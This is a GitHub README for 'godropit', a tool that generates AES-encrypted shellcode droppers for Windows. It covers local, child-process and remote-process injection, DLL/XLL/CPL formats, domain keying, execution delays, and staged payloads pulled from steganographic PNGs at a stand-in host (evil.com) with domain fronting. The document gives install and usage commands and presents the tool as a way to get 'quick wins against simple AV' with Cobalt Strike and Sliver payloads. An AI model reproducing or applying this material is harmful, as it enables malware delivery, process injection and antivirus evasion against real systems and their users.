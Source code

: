 # godropit

Simple Dropper Automation tool just enough to automate using some common go payloads from the excellent examples of [Ne0nd0g](https://github.com/Ne0nd0g/go-shellcode), [GoPurple](https://github.com/sh4hin/GoPurple). It differs from these projects primarily in that it uses go [templates](https://pkg.go.dev/text/template) to generate the dropper code.

- [godropit](#godropit)
  - [Supported Functionality](#supported-functionality)
    - [Supported Formats](#supported-formats)
- [Install](#install)
- [Usage](#usage)
  - [Payload Types](#payload-types)
      - [Local](#local)
      - [Child](#child)
      - [Remote](#remote)
      - [Staged](#staged)
  - [Usage Tips](#usage-tips)
    - [Test Shellcode](#test-shellcode)
    - [Execution delays](#execution-delays)
    - [Domain Keying](#domain-keying)
- [Known Issues](#known-issues)
 
## Supported Functionality
* Domain keying
* Local, remote and child process execution methods.
* Automatic AES shellcode encryption
* Can also load exe's with go-donut, allowing exec of sliver-agent.exe etc. 
* Staged PNG Loader - hides encrypted shellcode inside a remote png. Supports domain fronting.

### Supported Formats
First and foremost godropit focuses on windows binary formats. It currently supports:
* Exe
* Dll
* Xll
* Cpl

Note: Xll and CPL are generated by the shared flag, all shared droppers include exports for xlls, cpls and common windows dll based attacks.

Future formats can be added on request.

# Install
To use gohide it you will need to install go, as we'll need the go compiler to compile our droppers. You'll also want mingw-w64 for any payload using C, e.g. DLL droppers.

**On Linux**
```sh
sudo apt update && sudo apt install golang mingw-w64
git clone <THIS REPO>
go build -trimpath -ldflags="-w -s" -o godropit main.go && sudo cp godropit /usr/local/bin
```

**On Windows (untested)**
Install golang first. 
```cmd
choco install mingw-w64
go build -trimpath -ldflags="-w -s" -o godropit main.go
```

# Usage
[Example Usage](https://asciinema.org/a/Trd0aKJuNVbB6j4jPssbiYDuh)

Once downloaded it's fairly simple, you can either compile the binary and run it that way, or use it with "go run". Right now it only accepts baked in templates, but it will output the src to "-o /full/path/to/outputdir". This is where all the go source files will be placed, including encrypted shellcode, env variables used and go.mod/go.sum etc. 

**WARNING** Do not output to the godropit directory, doing so will break the droppers and they will NOT generate, because go will try to build godropit and your bin in one go. 

```sh
.\godropit new <local|child|remote> -i <exe/binfile> -n <outputfilename> -o <full path to output directory> -d <domainnamestring(wip)>
```

## Payload Types

#### Local

Local Payloads inject into the local process. 
**Note:** Because it exit's once complete, you can optionally specify `-l` to add an infinite for loop to keep the process open. 

```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l
```

#### Child

Child payloads spawn in a child process, which is started by the dropper manually (werfault.exe by default).
`--proc` and `--args` can be used to spawn a different process with arguments. Please watch the backslashes carefully, you may need to edit this in the .go file if your flag doesn't work.

```
godropit new child -i shellcode.bin -n childdropper -o /path/to/outdir --proc "c:\\windows\\system32\\notepad.exe" --args "whatever"
```

#### Remote

Remote payloads spawn in a process specified by `--pid` (werfault.exe by default).

```
godropit new remote -i shellcode.bin -n remotedropper -o /path/to/outdir -pid 1234
```

#### Staged

In addition to a stageless payload (the default), you can generate staged payloads. These are very similar to the other payloads, but it uses HTTP to grab your shellcode from a stego'd png. To use this function, you need to host your stego'd png somewhere the dropper can reach.
Below shows the local injection type, but staged and as a shared (-s) format.

```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l -s -u http://evil.com/test.png --img /path/to/imagefile.jpg/png
```
You can also specify the host header for domain fronting:
```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l -s -u http://evil.com/test.png --img /path/to/imagefile.jpg/png --host something.alphaweasel.com
```

**Notes about stego droppers:**

* The output file will always be a png regardless of input format and not all formats/images may work.
* Stagers don't necessarily save on file size unless you are using a particularly large exe or shellcode file. This is because the staged payload uses go libraries for TLS/HTTP etc. The unitended benefit is it might look more like a more legitimate go binary, as it includes more of the go stdlib. 
* Supports domain fronting, so you can send your request to a more legitimate looking domain (not super thoroughly tested).
* No proxy detection is currently implemented, use at your own risk.

I'd only recommend stego if you are unsure about the target env, and maybe want to include some checks against IP whitelists/sandbox analysis.

## Usage Tips
Below are some usage tips to get the most out of godropit.

### Test Shellcode
**-i flag**
If you are unsure about a dropper, or just want a quick visual test - specify CALC as your input filename and godropit will autofill with some x64 shellcode to pop calc.
This does accept exe files, and will use donut to create shellcode from them. Warning though, it'll be chonky.
### Execution delays
**-t flag**
This takes the time in seconds, and adds that as a delay prior to execution and decryption. Can be useful for distancing the exec of the binary from injection activity by a margin.
If not specified, this will only delay by 1 second. 

### Domain Keying
**-d flag**
Domain keying is supported, it will check both the go hostname (which often includes domain\\) and the USERDNSDOMAIN env var.
This uses strings.Contain() and is not case sensitive, so you can put as much or as little of the domname in to this.

There are plans to support more, but I suggest you write your own bespoke payloads for most scenarios - this is just for quick wins against simple AV.

# Known Issues

1. Sometimes you need to specify a full path, relative paths can lead to mixed results/errors.
2. Some of the droppers may not work, and some C2's the shellcode doesn't always play nice - e.g. sliver. However, cobalt and posh seem reliable.
3. In some circumstances payloads may not generate or need tweaking, unfortunately in these scenarios your best option is to re-run with --debug so you can modify and compile the godropit code yourself.

